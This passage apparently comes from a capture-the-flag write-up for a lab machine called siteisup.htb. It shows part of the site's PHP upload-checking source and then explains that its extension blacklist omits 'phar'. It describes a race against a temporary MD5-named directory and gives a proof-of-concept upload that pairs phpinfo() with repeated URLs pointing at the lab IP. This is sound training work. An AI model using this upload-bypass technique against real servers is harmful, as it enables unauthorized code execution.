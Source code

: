 ```php
			}else{
				echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
			}
		}else{
			echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
		}
	}

  # Delete the uploaded file.
	@unlink($final_path);
}

function getExtension($file) {
	$extension = strrpos($file,".");
	return ($extension===false) ? "" : substr($file,$extension+1);
}
?>
      </section>
    </div>

    <div id="footer_wrap" class="outer">
      <footer class="inner">
        <p class="copyright">siteisup.htb (beta)</p><br>
        <a class="changelog" href="changelog.txt">changelog.txt</a><br>
      </footer>
    </div>

  </body>
</html>
```

This version of the site will accept an uploaded file of newline-delimited URLs, each of which gets checked for availability. It tries to prevent a PHP-executable filename by blacklisting various extensions, but they forgot `phar`. It also creates a temporary directory based on the MD5 hash of the timestamp for storing the file, which makes it a little tricky to trigger. So, I'll pass it a long list of URLs to check which will keep the server busy while I locate the temporary directory inside of `/uploads` to trigger the payload.

Proof of concept:

```php
<?php phpinfo(); ?>
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
[...repeated 100 times...]
```
